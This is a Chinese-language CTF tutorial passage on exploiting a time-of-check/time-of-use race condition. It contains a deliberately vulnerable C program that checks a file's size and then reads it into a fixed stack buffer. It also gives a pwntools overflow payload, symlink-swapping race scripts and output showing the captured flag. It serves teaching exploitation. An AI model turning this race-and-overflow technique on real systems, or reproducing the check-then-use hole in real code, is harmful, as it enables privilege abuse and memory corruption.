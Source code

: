 # 題目

## 構造例子

### 源代碼

源代碼如下

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <unistd.h>
void showflag() { system("cat flag"); }
void vuln(char *file, char *buf) {
  int number;
  int index = 0;
  int fd = open(file, O_RDONLY);
  if (fd == -1) {
    perror("open file failed!!");
    return;
  }
  while (1) {
    number = read(fd, buf + index, 128);
    if (number <= 0) {
      break;
    }
    index += number;
  }
  buf[index + 1] = '\x00';
}
void check(char *file) {
  struct stat tmp;
  if (strcmp(file, "flag") == 0) {
    puts("file can not be flag!!");
    exit(0);
  }
  stat(file, &tmp);
  if (tmp.st_size > 255) {
    puts("file size is too large!!");
    exit(0);
  }
}
int main(int argc, char *argv[argc]) {
  char buf[256];
  if (argc == 2) {
    check(argv[1]);
    vuln(argv[1], buf);
  } else {
    puts("Usage ./prog <filename>");
  }
  return 0;
}
```

### 分析

可以看出程序的基本流程如下

- 檢查傳入的命令行參數是不是 “flag”，如果是的話，就退出。
- 檢查傳入的命令行參數對應的文件大小是否大於 255，是的話，就直接退出。
- 將命令行參數所對應的文件內容讀入到 buf 中 ，buf 的大小爲 256。

看似我們檢查了文件的大小，同時 buf 的大小也可以滿足對應的最大大小，但是這裏存在一個條件競爭的問題。

如果我們在程序檢查完對應的文件大小後，將對應的文件刪除，並符號鏈接到另外一個更大的文件，那麼程序所讀入的內容就會更多，從而就會產生棧溢出。

### 基本思路

那麼，基本思路來了，我們是想要獲得對應的`flag`的內容。那麼我們只要通過棧溢出修改對應的`main`函數的返回地址即可，通過反彙編以及調試可以獲得`showflag`的地址，獲得對應的payload

```python
➜  racetest cat payload.py 
from pwn import *
test = ELF('./test')
payload = 'a' * 0x100 + 'b' * 8 + p64(test.symbols['showflag'])
open('big', 'w').write(payload)
```

對應兩個條件競爭的腳本爲

```sh
➜  racetest cat exp.sh    
#!/bin/sh
for i in `seq 500`
do
    cp small fake
    sleep 0.000008
    rm fake
    ln -s big fake
    rm fake
done
➜  racetest cat run.sh 
#!/bin/sh
for i in `seq 1000`
do
    ./test fake
done
```

其中 exp 用於來競爭在相應的窗口內刪除 fake 文件，同時執行符號鏈接。run 用來執行程序。

### 具體效果

```shell
➜  racetest (sh exp.sh &) && sh run.sh
[...]
file size is too large!!
open file failed!!: No such file or directory
open file failed!!: No such file or directory
open file failed!!: No such file or directory
open file failed!!: No such file or directory
file size is too large!!
open file failed!!: No such file or directory
open file failed!!: No such file or directory
flag{race_condition_succeed!}
[...]
```

其中成功的關鍵在於對應的 `sleep` 的時間選擇。

## 參考

- http://www.cnblogs.com/biyeymyhjob/archive/2012/07/20/2601655.html
- http://www.cnblogs.com/huxiao-tee/p/4660352.html
- https://github.com/dirtycow/dirtycow.github.io
